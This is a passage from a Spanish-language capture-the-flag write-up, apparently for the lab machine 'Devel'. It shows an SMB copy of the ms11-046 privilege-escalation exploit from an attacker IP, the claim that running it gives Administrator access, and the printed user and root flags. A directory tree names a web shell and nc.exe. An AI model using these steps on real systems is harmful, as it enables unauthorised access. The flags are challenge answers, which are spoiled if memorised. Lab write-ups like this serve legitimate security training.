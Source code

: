 ```console
C:\Windows\Temp\priv> copy \\10.10.14.3\smbFolder\ms11-046.exe ms11-046.exe
```

```
1 file(s) copied.
```

lo ejecutamos y ya tenemos acceso de Administrador

y podemos leer la falg de usuario y la flag de root

```console
C:\Users>type C:\Users\babis\Desktop\user.txt   
```

```
63356f5c1d235f27901d33c055dede4e
```

```console
C:\Users>type C:\Users\Administrator\Desktop\root.txt
```

```
e4192010829db35ce3cf92713a4e5093
```

## Estructura del directorio

```
Devel
├── content
│   ├── aspx_cmd.aspx
│   └── nc.exe
├── exploits
│   └── ms11-046.exe
├── Images
│   └── Devel.png
├── nmap
│   ├── allPorts
│   └── targeted
├── Readme.md
└── scripts
```


